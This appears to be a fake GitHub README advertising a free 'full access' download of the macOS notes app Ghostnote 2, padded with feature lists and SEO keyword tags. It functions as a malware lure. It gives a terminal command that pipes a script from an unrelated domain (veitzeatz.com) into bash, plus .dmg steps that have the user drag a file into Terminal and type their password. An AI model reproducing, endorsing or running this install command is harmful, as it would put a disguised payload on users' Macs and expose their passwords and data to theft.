 <p align="center">
  <img src="https://i.ibb.co/mC7hp3Q5/1593841249-ghostnote.png" alt="Ghostnote 2 macOS Banner" />
</p>

<h1 align="center">Ghostnote 2 for macOS</h1>

<p align="center">
  🗂️ Attach contextual notes to apps, folders, files, and documents — without switching to a separate notes app.  
  <br><br>
  ✅ Apple Silicon & Intel native  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/156" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20GHOSTNOTE%202%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Ghostnote 2 for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/mCCspk87/1593841328-1-min.png" alt="Ghostnote 2 Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Ghostnote 2?

**Ghostnote 2** is a unique productivity tool for macOS that lets you attach notes directly to files, folders, apps, and even websites — making it easy to track thoughts and to-dos exactly where they’re relevant.

Whether you're a developer, designer, or writer, Ghostnote helps you keep information in context without cluttering your main notes app. Use it to add hidden reminders, project details, or internal documentation directly on Finder items or app windows.

It’s fully compatible with **Apple Silicon (M1/M2/M3)** and runs smoothly on **macOS Sonoma**, **Ventura**, and **Monterey**.

---

## ✅ Why Choose Ghostnote 2?

- 📌 **Contextual Notes for Files & Folders**  
- 🧠 **App-Specific Sticky Notes**  
- 🌐 **Attach Notes to Websites & Documents**  
- 🖥️ **macOS Finder & App Integration**  
- 🧭 **Lightweight & Always Accessible**  
- 🔐 **Private & Local Note Storage**  
- ⚙️ **Apple M1/M2/M3 Native Support**  
- 🚫 **No Sync, No Distractions**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/RdQ4vwf/1593841315-3-min.png" alt="Ghostnote Finder Integration Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/QvqbBMp6/1593841244-2-min.png" alt="Ghostnote App Window Screenshot" />
</p>

---

## 🚀 Key Features

- Attach notes to any file, app, or folder  
- Support for Safari, Chrome, and other browsers  
- Markdown support in notes  
- Global hotkey access  
- Smart Inspector for managing all notes  
- Minimalist menu bar interface  
- Offline, private, and secure  
- No sync or cloud storage

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Ghostnote 2 under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/NoteType-Contextual+Sticky+Notes-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Finder+Integration-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Ghostnote 2 – Notes Where You Need Them

Thanks for using **Ghostnote 2 for macOS**.  
Stay organized, context-aware, and clutter-free.

---

## 🧭 Usage Context

This utility is designed for offline productivity workflows — note-taking directly tied to file system and app usage.  
No cloud sync, telemetry, or background processes are involved.

Works in isolated, local environments.  
Ghostnote 2 is not affiliated with Apple.

---

## 🔍 Tags

```text
ghostnote 2 for mac download, attach notes to files macos, contextual sticky notes mac ghostnote, ghostnote 2 m1 native support, file-based note system mac finder, ghostnote app note-taking per app mac, download ghostnote 2 full dmg mac, ghostnote for macbook pro ventura, ghostnote markdown sticky notes mac, offline mac note tool for devs, ghostnote menu bar productivity app, app-specific notes mac utility, ghostnote mac app native interface, project notes per folder ghostnote, ghostnote 2 for sonoma monterey mac
